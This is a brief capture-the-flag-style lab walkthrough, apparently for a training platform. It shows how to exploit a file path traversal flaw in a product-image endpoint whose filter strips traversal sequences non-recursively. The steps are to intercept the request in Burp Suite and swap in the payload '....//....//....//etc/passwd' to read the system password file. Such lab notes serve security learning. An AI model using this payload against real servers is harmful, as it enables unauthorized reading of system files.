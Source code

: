 # File path traversal, traversal sequences stripped non-recursively

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application strips path traversal sequences from the user-supplied filename before using it.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

### step 1

intercept image in burpsuite
GET /image?filename=21.jpg HTTP/1.1

step2
change url
ET /image?filename=....//....//....//etc/passwd
and send forward turn of intercept

![screenshot](images/lab3_http_request.jpg)
